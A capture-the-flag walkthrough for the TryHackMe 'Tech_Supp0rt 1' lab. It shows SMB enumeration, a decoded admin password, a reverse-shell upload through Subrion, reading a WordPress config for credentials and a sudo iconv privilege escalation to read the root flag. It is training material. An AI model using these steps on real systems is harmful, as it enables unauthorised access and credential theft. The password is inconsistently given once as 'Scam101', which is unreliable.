






---

Name: Tech_Supp0rt 1
Difficulty: Easy
URL: https://tryhackme.com/room/techsupp0rt1
Category: "TryHackMe"
Description: "A hands-on TryHackMe walkthrough for Solution, covering the approach and key findings."
---

# Solution
## Enumerating services on the server
We start by enumerating all open ports on the server
```bash
$ rustscan -a tech.thm -r 1-65535 --ulimit 5000 -- -sC -sV
PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtST3F95eem6k4V02TcUi7/Qtn3WvJGNfqpbE+7EVuN2etoFpihgP5LFK2i/EDbeIAiEPALjtKy3gFMEJ5QDCkglBYt3gUbYv29TQBdx+LZQ8Kjry7W+KCKXhkKJEVnkT5cN6lYZIGAkIAVXacZ/YxWjj+ruSAx07fnNLMkqsMR9VA+8w0L2BsXhzYAwCdWrfRf8CE1UEdJy6WIxRsxIYOk25o9R44KXOWT2F8pP2tFbNcvUMlUY6jGHmXgrIEwDiBHuwd3uG5cVVmxJCCSY6Ygr9Aa12nXmUE5QJE9lisYIPUn9IjbRFb2d2hZE2jQHq3WCGdAls2Bwnn7Rgc7J09
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBClT+wif/EERxNcaeTiny8IrQ5Qn6uEM7QxRlouee7KWHrHXomCB/Bq4gJ95Lx5sRPQJhGOZMLZyQaKPTIaILNQ=
|   256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDolvqv0mvkrpBMhzpvuXHjJlRv/vpYhMabXxhkBxOwz
80/tcp  open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find:
- `SSH`, will be useful if we find a username/ password
- `HTTP`, we will check the website later
- `SMB`, this service is interesting as it sometimes allows anonymous login

## Exploring the SMB shares
Using smbmap we can discover what is available on the server
```bash
$ smbmap -H tech.thm

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.8 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)

[+] IP: 10.114.166.227:445      Name: tech.thm                  Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        websvr                                                  READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (TechSupport server (Samba, Ubuntu))
```

## Connecting as anonymous
Anonymous login is allowed and we can get the enter.txt file
```bash
$ smbclient //tech.thm/websvr -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 10:17:38 2021
  ..                                  D        0  Sat May 29 10:03:47 2021
  enter.txt                           N      273  Sat May 29 10:17:38 2021

                8460484 blocks of size 1024. 5669412 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
```

## Enter.txt file
Let's view what's inside it, looks like we have a route (/subrion) and some creds for Subrion, but the ones for Wordpress are missing
```bash
$ cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

## Enumerating directories and files
I've started gobuster while I was connecting to the smb, here is what it found
```bash
$ gobuster dir -u http://tech.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php,html,bak,zip,log -k
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://tech.thm
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,bak,zip,log,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 273]
.hta.bak             (Status: 403) [Size: 273]
.hta.zip             (Status: 403) [Size: 273]
.hta.log             (Status: 403) [Size: 273]
.hta.txt             (Status: 403) [Size: 273]
.hta.php             (Status: 403) [Size: 273]
.hta.html            (Status: 403) [Size: 273]
.htaccess            (Status: 403) [Size: 273]
.htaccess.txt        (Status: 403) [Size: 273]
.htaccess.html       (Status: 403) [Size: 273]
.htaccess.bak        (Status: 403) [Size: 273]
.htaccess.php        (Status: 403) [Size: 273]
.htaccess.zip        (Status: 403) [Size: 273]
.htaccess.log        (Status: 403) [Size: 273]
.htpasswd            (Status: 403) [Size: 273]
.htpasswd.txt        (Status: 403) [Size: 273]
.htpasswd.php        (Status: 403) [Size: 273]
.htpasswd.bak        (Status: 403) [Size: 273]
.htpasswd.html       (Status: 403) [Size: 273]
.htpasswd.zip        (Status: 403) [Size: 273]
.htpasswd.log        (Status: 403) [Size: 273]
index.html           (Status: 200) [Size: 11321]
index.html           (Status: 200) [Size: 11321]
phpinfo.php          (Status: 200) [Size: 94917]
phpinfo.php          (Status: 200) [Size: 94918]
server-status        (Status: 403) [Size: 273]
test                 (Status: 301) [Size: 303] [--> http://tech.thm/test/]
wordpress            (Status: 301) [Size: 308] [--> http://tech.thm/wordpress/]
```

Going to /test reveals why this is some scammer's website 



## Subrion creds
We should try to find what that magical formula is. The first tool that comes to mind is Cyber Chef, with the magic recipe, and that actually finds it, the password is Scam2021



And the recipe is:
```txt
To Base64
To Base32
To Base58
```

## WordPress
### Enumerating vulnerabilities and usernames
Since the note mentions wordpress let's check /wordpress

We know that WordPress had many vulnerabilities in its plugins and themes, so we use a scanner in the hopes we find some useful ones
```bash
$ wpscan --url http://tech.thm/wordpress --enumerate u,vp,vt --api-token REDACTED
```

The output is really long, it can be found in wpscan_report.txt

The report shows there is 1 user, support
```bash
[+] Enumerating Users (via Passive and Aggressive Methods)
[+] support
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://tech.thm/wordpress/index.php/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```

We can confirm it's a valid username by trying to login with it in /wordpress/wp-admin, the error message is
```txt
Error: The password you entered for the username support is incorrect
```

While for other usernames it's
```txt
Unknown username. Check again or try your email address.
```

### WordPress login
Since we know the magical formula to create passwords, we could transform rockyou.txt with Cyber Chef and start brute forcing, but since the Subrion password (Scam101) is not in rockyou.txt I do not think that is the way in

Let's take a step back and think

## Subrion
Reading the note again made me wonder if we can still access the subrion login even if /subrion does not work

After looking at the [demo](https://demos.subrion.org/directory/panel/), we find the path is /directory_name/panel, for us /subrion/panel

We manage to login with admin:Scam2021, apparently the magical formula is used just for storing the passwords




### Uploading a revshell
We generate our payload with [revshells](https://www.revshells.com/) 



I heard php might not work, so I also uploaded the .phar version




Start a listener 
```bash
$ nc -lvnp 4444
```

> [!NOTE]
> You might have to add a firewall rule to allow the connection
>
> sudo firewall-cmd --add-port=4444/tcp
 
Now we can go to http://tech.thm/subrion/uploads/shell.phar and get the shell

## Shell ass www-data
We are connected as www-data, let's look for ways to escalate

First we check for an easy win with the SUID binaries, but we are not lucky
```bash
www-data@TechSupport:/$ find / -perm -4000 2> /dev/null
/bin/umount
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/ping
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/sbin/mount.cifs
```

The 3rd point from enter.txt was wordpress so let's check wp-config.php. There we find the password for support
```bash
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

## Changing users
What other users are on the machine?
```bash
$ cat /etc/passwd | grep home
scamsite@TechSupport:~$ cat /etc/passwd | grep home
syslog:x:104:108::/home/syslog:/bin/false
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
```

With the password found we can become scamsite
```bash
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ 
```

## Getting the root flag
We check what we can do with sudo
```bash
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

Searching on [GTFObins](https://gtfobins.org/gtfobins/iconv/#file-read) reveals that we can write/read any file



```bash
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 /root/root.txt
REDACTED -
```
